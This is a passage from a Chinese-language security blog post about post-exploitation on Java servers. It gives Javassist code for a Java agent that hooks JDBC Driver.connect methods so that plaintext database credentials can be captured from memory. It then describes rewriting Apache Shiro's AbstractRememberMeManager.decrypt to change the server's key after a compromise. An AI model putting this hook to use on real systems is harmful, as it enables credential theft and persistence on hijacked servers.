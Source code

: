 这里简单说一下大致作用，具体得配合文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)才能看懂。

<font color=red>通过循环判断类 clazz 是否是**Driver.class**的子类、实现类，然后再 ClassPool 中加入 clazz 和 clazz 的类加载器。然后修改对应的 connect 方法代码，在前面加入自定义的代码。</font>

```plain
                // 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
```

自定义的代码块调用了 agent 中的**Main.class**的**add**方法，之后的这块可以继续看北辰师傅文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)。<font color=red>总结一下，大概思路。首先通过 agent 将目标的接口或者是抽象类 hook 了，然后对其修改代码逻辑，从而实现的需要实现的目的。并且生成 agent 已经被北辰师傅集成了，我们无需考虑，这使得我们的工作内容大大的简化了。</font>

- - -

### [0x02 shiro 后渗透实现](#toc_0x02-shiro)

现在我们能 hook 我们想要的所有类，并且也能修改其代码逻辑，加入自己想要的功能。比例说北辰师傅就调用了 agent 中 Main.class 的 add 方法。前面提到我们修改 key 的功能，并不是通用的，但 agent 的优势可以完美解决这个问题。

- - -

#### [修改 shiro 的 key](#toc_shirokey)

在之前的博文中[shiro 反序列化漏洞攻击拓展面–修改 key](https://sumsec.me/2022/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%94%BB%E5%87%BB%E6%8B%93%E5%B1%95%E9%9D%A2--%E4%BF%AE%E6%94%B9key.html)提到，想要修改掉 shiro 的 key 就需要调用内存中的**AbstractRememberMeManager**对象。调用**AbstractRememberMeManager**对象的<font color=red>setCipherKey</font>方法，才能实现修改 shiro 的 key 的目的。最开始我的想法和北辰师傅一样，调用 agent 中的某一类的方法。但这导致了一个问题，在 agent 中，我们无法直接获取实例化**AbstractRememberMeManager**对象，但其实也有解决方法，使用深度优先算法获取实例化**AbstractRememberMeManager**对象。这也导致了实现变得很麻烦了，相比北辰师傅的实现就显得很笨重了。所以我放弃了这种方式，我将所有的代码逻辑都加入到**AbstractRememberMeManager**对象的**decrypt**方法，其实只需要添加一行代码即可非常的简单。
